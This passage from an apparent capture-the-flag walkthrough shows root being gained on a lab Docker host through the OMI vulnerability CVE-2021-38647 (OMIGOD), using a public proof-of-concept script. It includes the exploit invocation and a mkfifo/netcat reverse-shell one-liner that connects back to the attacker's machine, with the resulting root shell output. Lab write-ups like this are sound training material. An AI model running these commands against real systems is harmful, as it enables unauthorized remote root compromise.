 ```
5986/tcp open  unknown  syn-ack
```

I search google for this port to see what it is and a lot of results come back with WinRM, which isn't applicable here. So, I search again filtering those out. It looks like this port is used by **Open Management Infrastructure** and it has a known RCE exploit with it: **CVE-2021-38647** aka **OMIGOD**.

You can read more about the exploit [**here**](https://usa.kaspersky.com/blog/vulnerabilities-in-omi-azure/25371/).

Looking on GitHub you can find an OMIGOD POC [**here**](https://github.com/AlteredSecurity/CVE-2021-38647), which I download and then transfer over to the docker container.

The instructions to run the exploit are as follows:

```
# Execute command on the target machine.
python CVE-2021-38647.py -t IP -p 5986 -c COMMAND
```

I test it out by checking the hostname:

'python3 omigod.py -t 172.17.0.1 -c hostname'

```
ubuntu
```

So, it appears to be working and we can execute commands on the host system.

<br>

## Actual Root

I check to see if netcat is on the host system and it is so I set up a listener on my system. Then, I run the exploit with the standard mkfifo reverse shell as it's command:

`python3 omigod.py -t 172.17.0.1 -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <MY IP> 5555 >/tmp/f"`

```
listening on [any] 5555 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.169.0] 36998
bash: cannot set terminal process group (1612): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/var/opt/microsoft/scx/tmp# hostname
hostname
ubuntu
root@ubuntu:/var/opt/microsoft/scx/tmp# whoami
whoami
root
root@ubuntu:/var/opt/microsoft/scx/tmp#
```

You can now look at **/root/root.txt** for your final flag:

`wc -c /root/root.txt`
